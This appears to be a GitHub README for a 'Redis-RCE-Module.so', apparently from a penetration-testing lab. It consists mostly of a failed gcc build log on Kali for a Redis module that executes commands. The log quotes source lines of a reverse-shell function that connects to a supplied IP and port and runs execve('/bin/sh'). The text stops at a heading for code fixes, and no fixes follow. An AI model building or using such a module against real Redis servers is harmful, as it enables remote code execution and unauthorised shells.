

# Redis-RCE-Module.so
Error message from the original module.c file from https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
```
$ sudo make                                  
[sudo] password for kali: 
make -C ./src
make[1]: Entering directory '/home/kali/PG/wombo/2/RedisModules-ExecuteCommand/src'
make -C ../rmutil
make[2]: Entering directory '/home/kali/PG/wombo/2/RedisModules-ExecuteCommand/rmutil'
make[2]: Nothing to be done for 'all'.
make[2]: Leaving directory '/home/kali/PG/wombo/2/RedisModules-ExecuteCommand/rmutil'
gcc -I../ -Wall -g -fPIC -lc -lm -std=gnu99     -c -o module.o module.c
module.c: In function ‘DoCommand’:
module.c:16:29: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   16 |                 char *cmd = RedisModule_StringPtrLen(argv[1], &cmd_len);
      |                             ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:23:29: error: implicit declaration of function ‘strlen’ [-Wimplicit-function-declaration]
   23 |                         if (strlen(buf) + strlen(output) >= size) {
      |                             ^~~~~~
module.c:11:1: note: include ‘<string.h>’ or provide a declaration of ‘strlen’
   10 | #include <netinet/in.h>
  +++ |+#include <string.h>
   11 | 
module.c:23:29: warning: incompatible implicit declaration of built-in function ‘strlen’ [-Wbuiltin-declaration-mismatch]
   23 |                         if (strlen(buf) + strlen(output) >= size) {
      |                             ^~~~~~
module.c:23:29: note: include ‘<string.h>’ or provide a declaration of ‘strlen’
module.c:27:25: error: implicit declaration of function ‘strcat’ [-Wimplicit-function-declaration]
   27 |                         strcat(output, buf);
      |                         ^~~~~~
module.c:27:25: note: include ‘<string.h>’ or provide a declaration of ‘strcat’
module.c:27:25: warning: incompatible implicit declaration of built-in function ‘strcat’ [-Wbuiltin-declaration-mismatch]
module.c:27:25: note: include ‘<string.h>’ or provide a declaration of ‘strcat’
module.c:29:80: warning: incompatible implicit declaration of built-in function ‘strlen’ [-Wbuiltin-declaration-mismatch]
   29 |                 RedisModuleString *ret = RedisModule_CreateString(ctx, output, strlen(output));
      |                                                                                ^~~~~~
module.c:29:80: note: include ‘<string.h>’ or provide a declaration of ‘strlen’
module.c: In function ‘RevShellCommand’:
module.c:41:28: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   41 |                 char *ip = RedisModule_StringPtrLen(argv[1], &cmd_len);
      |                            ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:42:32: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   42 |                 char *port_s = RedisModule_StringPtrLen(argv[2], &cmd_len);
      |                                ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:48:38: error: implicit declaration of function ‘inet_addr’ [-Wimplicit-function-declaration]
   48 |                 sa.sin_addr.s_addr = inet_addr(ip);
      |                                      ^~~~~~~~~
module.c:57:17: warning: argument 2 null where non-null expected [-Wnonnull]
   57 |                 execve("/bin/sh", 0, 0);
      |                 ^~~~~~
In file included from module.c:4:
/usr/include/unistd.h:572:12: note: in a call to function ‘execve’ declared ‘nonnull’
  572 | extern int execve (const char *__path, char *const __argv[],
      |            ^~~~~~
make[1]: *** [<builtin>: module.o] Error 1
make[1]: Leaving directory '/home/kali/PG/wombo/2/RedisModules-ExecuteCommand/src'
make: *** [Makefile:18: module.so] Error 2
```
Changes made to code to fix errors:


